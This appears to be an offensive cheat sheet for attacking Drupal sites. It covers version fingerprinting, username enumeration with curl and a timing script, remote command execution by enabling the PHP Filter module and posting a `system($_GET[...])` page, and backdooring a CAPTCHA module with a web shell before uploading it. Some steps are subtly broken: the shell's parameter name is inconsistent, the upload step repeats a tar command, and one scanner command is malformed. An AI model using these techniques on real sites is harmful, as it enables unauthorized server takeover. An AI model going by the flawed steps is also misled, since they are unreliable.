 ```yaml
---
legal-banner: true
---
```


### **Introduction**

Drupal is a free and open-source content management system (CMS) used to build and manage websites. It's written in PHP and provides a backend framework for at least 2.3% of all websites worldwide, from personal blogs to corporate, political, and government sites.


### **Identifying Drupal Version**

1.  View the CHANGELOG.txt file to identify the Drupal version:  
    `http://[DRUPAL-DOMAIN]/CHANGELOG.txt`
2.  For Drupal 8 and above, the core/CHANGELOG.txt file can be used to determine the version:  
    `http://[DRUPAL-DOMAIN]/core/CHANGELOG.txt`
3.  The drupal.js file may contain version information:  
    `http://[DRUPAL-DOMAIN]/misc/drupal.js`
4.  Check the page source for meta tags indicating the Drupal version:  
    `<meta name="generator" content="Drupal 7 (http://drupal.org)" />`
5.  Droopescan is a scanner that can enumerate Drupal installations  
    `droopescan scan drupal -u http://[DRUPAL-DOMAIN]`
6.  Nmap, with the http-drupal-enum script, can be used to enumerate Drupal installations  
    `nmap -sV --script http-drupal-enum --script-args http-drupal-enum.basepath=/ http://[DRUPAL-DOMAIN]`

### **User Enumeration Techniques**

1.  Analyze error messages to identify existing user accounts. Drupal redirects to user pages if the account exists:  
    `for i in {1..10}; do curl -s -o /dev/null -w "%{http_code}" http://[DRUPAL-DOMAIN]/user/$i; done`
    
2.  Measure response times for different user actions to infer the existence of user accounts:
    
    ```python
    import requests
    import time
    
    def measure_response_time(url, data):
        start_time = time.time()
        response = requests.post(url, data=data)
        end_time = time.time()
        return end_time - start_time
    
    user_exists = measure_response_time('http://[DRUPAL-URL]/login', {'username': 'existing_user', 'password': 'wrong_password'})
    user_not_found = measure_response_time('http://[DRUPAL-URL]/login', {'username': 'nonexistent_user', 'password': 'wrong_password'})
    print('Existing user:', user_exists, 'Nonexistent user:', user_not_found)
    ```
    
3.  Check for user-specific customization or redirections. If redirects to a login page for non-existent users and to a dashboard for existing users, this could be a potential vector for username enumeration.  
    `http://[DRUPAL-DOMAIN]/users/[USERNAME]`
    
4.  Droopescan can also be used to check for user enumeration  
    `drupal -u http://[DRUPAL-DOMAIN] --enumerate u`
    
5.  Investigate forums, articles, and comments on the target Drupal site. Users often leave traces or use similar usernames across different platforms.
    
6.  If the Drupal site has JSON API  you might be able to retrieve user information:  
    `curl -s http://[DRUPAL-DOMAIN]/jsonapi/user/user | jq`  
    Look for unique identifiers or username fields in the JSON response.
    

### **PHP Code Execution in Filter Module (Drupal)**

#### **Step 1: Enable PHP Filter Module**

1.  Access the module administration panel by navigating to:  
    `http://[DRUPAL-DOMAIN]/#overlay=admin/modules`
2.  Locate and enable the PHP Filter module, then save the configuration.

#### **Step 2: Create a Page with PHP Code**

1.  Navigate to the Content Creation Section:  
    `http://[DRUPAL-DOMAIN]/#overlay=node/add`
2.  Add a new Basic page, place the following PHP code to test command execution:  
    `<?php system($_GET['hackfast']); ?>`
3.  Ensure that the text format is set to "PHP code".
4.  Save the page. Note the URL of the newly created page, for example:  
    `http://[DRUPAL-DOMAIN]/node/1`

#### **Step 3: Execute Commands**

1.  To run commands, add a query string with the command you wish to execute, such as:  
    `http://[DRUPAL-DOMAIN]/node/1?cmd=id`
2.  Or use curl to execute the command from the terminal:  
    `curl 'http://[DRUPAL-DOMAIN]/node/1?cmd=id'`

### **Modify and Upload Module with Web Shell**

1.  Download a module from Drupal.org, e.g., CAPTCHA:  
    `wget https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz`
    
2. Extract archive:  
    `tar xvf captcha-8.x-1.2.tar.gz`
    
3. Add a PHP web shell into one of the PHP files:  
    `<?php system($_GET['cmd']); ?>`
    
4. Create a .htaccess file. This allows bypassing Drupal default access controls:
    
    ```
    <IfModule mod_rewrite.c>
      RewriteEngine On 
      RewriteBase /  
    </IfModule>
    ```
    
5. Place this file in the root directory of the modified module.
    
6. Repackage the modified module:  
    `tar cvf modified_captcha.tar.gz captcha/`
    
7. Upload the module through the Drupal admin interface.  
    `tar cvf modified_captcha.tar.gz captcha/`
    
8. Install the module.
    
9. Navigate to the web shell URL and add the command:  
    `http://[DRUPAL-DOMAIN]/modules/captcha/shell.php?cmd=id`
    
10. Or use curl to execute the command from the terminal:  
    `curl 'http://[DRUPAL-DOMAIN]/modules/captcha/shell.php?cmd=id'`